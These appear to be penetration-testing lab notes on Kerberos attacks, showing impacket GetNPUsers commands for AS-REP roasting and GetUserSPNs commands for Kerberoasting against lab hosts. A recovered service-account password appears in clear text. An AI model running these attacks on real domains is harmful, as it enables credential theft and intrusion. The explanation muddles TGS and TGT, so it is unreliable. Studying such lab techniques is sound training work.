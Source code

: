 ## impacket-GetNPUser
When a target has Kerberos running and usernames are identified, the very next thing I can try is AS_REP with a "Do not Require Keberos Preauthentication" attack. This option does not require a password to be supplied.
```
└─$ impacket-GetNPUsers  htb/ -dc-ip 10.10.10.161 -usersfile ./valid_users.txt -request -format john -no-pass
```

## impacket-GetUserSPNs
 The tester used retrived credential to request SPN to KDC. The KDC verified the credential and returned TGT (AS-REP). And the TGT contains user's identification which is encrytyped with KDC secret key. The tester decrypted the krb5tgs using john and rockyou.txt.

```
└─$ impacket-GetUserSPNs  active.htb/svc_tgs    

└─$ impacket-GetUserSPNs active.htb/svc_tgs:GPPstillStandingStrong2k18 -outputfile outputTGS.txt

